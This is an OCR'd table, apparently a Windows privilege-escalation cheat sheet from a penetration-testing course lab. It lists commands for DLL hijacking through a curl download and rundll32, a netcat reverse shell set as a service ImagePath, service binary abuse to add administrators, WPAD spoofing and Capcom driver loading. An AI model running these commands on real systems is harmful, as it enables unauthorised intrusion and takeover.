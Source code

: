 | `reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`                                                                                                       | Querying a registry key                                    |
| `reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`                                                                              | Deleting a registry key                                    |
| `sc query dns`                                                                                                                                                                        | Checking a service status                                  |
| `Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`                                                                                             | Disabling the global query block list                      |
| `Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`                                                | Adding a WPAD record                                       |
| `cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`                                                                                                                             | Compile with cl.exe                                        |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`                                                                                    | Add reference to a driver (1)                              |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`                                                                                                              | Add reference to a driver (2)                              |
| `.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom`                                                                                          | Check if driver is loaded                                  |
| `EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`                                                                                                               | Using EopLoadDriver                                        |
| `c:\Tools\PsService.exe security AppReadiness`                                                                                                                                        | Checking service permissions with PsService                |
| `sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`                                                                                              | Modifying a service binary path                            |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`                                                                                | Confirming UAC is enabled                                  |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`                                                               | Checking UAC level                                         |
| `[environment]::OSVersion.Version`                                                                                                                                                    | Checking Windows version                                   |
| `cmd /c echo %PATH%`                                                                                                                                                                  | Reviewing path variable                                    |
| `curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`                                                                           | Downloading file with cURL in PowerShell                   |
| `rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`                                                                                   | Executing custom dll with rundll32.exe                     |
| `.\SharpUp.exe audit`                                                                                                                                                                 | Running SharpUp                                            |
| `icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`                                                                                                                       | Checking service permissions with icacls                   |
| `cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`                                                                                           | Replace a service binary                                   |
| `wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """`                                                      | Searching for unquoted service paths                       |
| `accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`                                                                                                    | Checking for weak service ACLs in the Registry             |
| `Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`            | Changing ImagePath with PowerShell                         |